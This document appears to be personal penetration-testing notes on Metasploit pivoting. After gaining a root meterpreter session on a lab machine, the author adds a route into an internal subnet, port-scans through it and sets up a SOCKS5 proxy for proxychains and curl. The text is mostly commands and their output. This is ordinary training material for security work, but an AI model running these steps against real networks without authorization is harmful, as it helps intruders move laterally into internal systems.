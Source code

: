 # Metasploit Tunneling for exploitation

## Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- I have an active meterpreter session for this machine.

Technique: Local Port Forwarding via meterpreter portfwd

(TODO)

## Scenario 2: 
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- I would like to perform port scanning on the intranet network.

Technique: Add Route, Add Socks proxy

```sh
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell linux            SSH root @           10.10.1.32:35981 -> 10.10.1.10:22 (10.10.1.10)
  2         meterpreter x86/linux  root @ 172.16.1.100  10.10.1.32:4433 -> 10.10.1.10:43318 (10.10.1.10)
  
msf6 > route add 172.16.1.0/24 255.255.255.0 2
[*] Route added

msf6 > route get 172.16.1.2
172.16.1.2 routes through: Session 2
```
My active meterpreter session is at SESSION 2. Add a route with the following format: `route add <IP/CIDR> <SUBNET> <SESSION>`. 
Performing this will allow you to use metasploit modules to port scan the intranet network.

```
msf6 > use auxiliary/scanner/portscan/tcp 
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.1.2
RHOSTS => 172.16.1.2
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 80
PORTS => 80
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.1.2:           - 172.16.1.2:80 - TCP OPEN
[*] 172.16.1.2:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We can see perform port scan via metasploit module. However, we can further expand this to tools outside of metasploit by setting up a SOCKs proxy.

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 1.
[*] Starting the SOCKS proxy server
```
We set up a SOCK5 proxy and configure our `proxychains.conf` to use 127.0.0.1:9050.

```
(host)# proxychains curl -v http://172.16.1.2/ 
ProxyChains-3.1 (http://proxychains.sf.net)
*   Trying 172.16.1.2:80...
* Connected to 172.16.1.2 (127.0.0.1) port 80 (#0)
...
```
We have more flexibility with what tools to use with this Socks proxy set up. 
